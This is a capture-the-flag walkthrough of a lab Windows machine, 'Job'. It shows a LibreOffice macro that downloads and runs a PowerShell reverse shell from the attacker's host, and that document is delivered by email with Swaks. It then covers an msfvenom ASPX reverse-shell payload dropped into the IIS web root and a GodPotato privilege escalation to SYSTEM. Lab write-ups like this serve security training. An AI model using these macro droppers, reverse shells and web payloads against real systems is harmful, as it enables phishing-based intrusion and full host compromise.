

Let's start with an Nmap scan.

```bash
➜  Job nmap -p- --min-rate 1000 10.10.109.254
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 13:13 +04
Nmap scan report for job.local (10.10.109.254)
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 130.29 seconds
```

Since port 80 is open, let's visit the website (don't forget to add `job.local` to the hosts file).

<figure><figcaption></figcaption></figure>

As seen on the website, they mention that they are looking for a developer and have provided an email address.

For now, the only idea that comes to mind is to create a malicious file and send it to the provided email address in hopes of achieving RCE.\
&#xNAN;_**Note:**_ If you haven’t seen this type of vulnerability before, it's quite difficult to come up with this approach on your own at first.

To support this step, I’m sharing a write-up by 0xdf that can serve as a valuable reference:\
[https://0xdf.gitlab.io/2020/02/01/htb-re.html](https://0xdf.gitlab.io/2020/02/01/htb-re.html)\
This resource is especially helpful at this stage.

As shown in the screenshot, we create a new text document (`.odt`) in LibreOffice and navigate to:\
**Tools > Macros > Organize Macros > Basic**.

<figure><figcaption></figcaption></figure>

Next, we click on **Untitled**, select **New**, and give our macro a name.

<figure><figcaption></figcaption></figure>

After that, we will inject our malicious code as a macro.\
Here, we’ll use `reverse.ps1` from Nishang as our reverse shell, which will allow us to gain a reverse shell connection

<figure><figcaption></figcaption></figure>

```
REM  *****  BASIC  *****  
  
Sub Main  
  
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.0.210/shell.ps1')""")  
  
End Sub
```

To ensure the macro runs when the file is opened, we save it and then go to:\
**Tools > Customize**, and under the **Open Document** section, we select our custom macro.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

After selecting our macro, we’ll save the file and close it.\
Now, we can edit the file we referred to as `reverse.ps1`.

```bash
➜  Job cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
➜  Job echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.8.6.29 -Port 443" >> reverse.ps1
```

Now, let's set up a web server using Python and send the email.

```bash
➜  Job python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's also start listening on port 443.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
```

Send the email using Swaks.

```bash
➜  Job swaks --from tofiq@vulnlab.com --to career@job.local --header "CV" --body "CV" --attach @mail.odt --server job.local
=== Trying job.local:25...
=== Connected to job.local.
<-  220 JOB ESMTP
 -> EHLO kali
<-  250-JOB
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<tofiq@vulnlab.com>
<-  250 OK
 -> RCPT TO:<career@job.local>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 15 Apr 2025 13:51:08 +0400
 -> To: career@job.local
 -> From: tofiq@vulnlab.com
 -> Subject: test Tue, 15 Apr 2025 13:51:08 +0400
 -> Message-Id: <20250415135108.037121@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_37121"
 -> CV
 -> 
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: text/plain
 -> 
 -> CV
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: application/octet-stream; name="mail.odt"
 -> Content-Description: mail.odt
 -> Content-Disposition: attachment; filename="mail.odt"
 -> Content-Transfer-Encoding: BASE64
 <SNIP>
 -> 
 -> ------=_MIME_BOUNDARY_000_37121--
 -> 
 -> 
 -> .
<-  250 Queued (1.218 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After waiting a bit, we receive the reverse shell.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 53412
Windows PowerShell running as user jack.black on JOB
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\LibreOffice\program>
```

We obtained our first flag. After exploring a bit further, we notice that we have write permissions in the directory where the web server’s files are located.

```powershell
PS C:\inetpub\wwwroot> echo "Hello VulnLab" > test.txt
```

<figure><figcaption></figcaption></figure>

After this, we can use Metasploit to compromise the `DefaultAppPool` user.

```bash
➜  Job msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.6.29 LPORT=4444 -f aspx -o reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3393 bytes
Saved as: reverse.aspx
```

We transfer the file to the `inetpub/wwwroot` directory, start listening on port 4444, and then trigger the file. After that, we receive the reverse shell.

```bash
PS C:\inetpub\wwwroot> certutil -f -split -urlcache http://10.8.6.29/reverse.aspx reverse.aspx
****  Online  ****
  0000  ...
  0d41
CertUtil: -URLCache command completed successfully.
```

```bash
➜  Job rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 54657
Microsoft Windows [Version 10.0.20348.350]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

The next step is very simple and follows a well-known method.

```powershell
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Since `SeImpersonatePrivilege` is enabled, we can easily exploit it using **GodPotato**.\
I will just read the flag, but you can find more detailed information on the exploitation process at the following GitHub page:\
[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

```bash
c:\Users\Public>.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
[*] CombaseModule: 0x140714526179328
[*] DispatchTable: 0x140714528769912
[*] UseProtseqFunction: 0x140714528063344
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\81bb2936-6705-43bf-8d90-0191a019d742\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008002-08e8-ffff-7a29-9c596b6e174a
[*] DCOM obj OXID: 0x1b52faa4cc16b4a3
[*] DCOM obj OID: 0x4e2db48f7201ce41
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 968 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4396
VL{<REDACTED>}
```

\


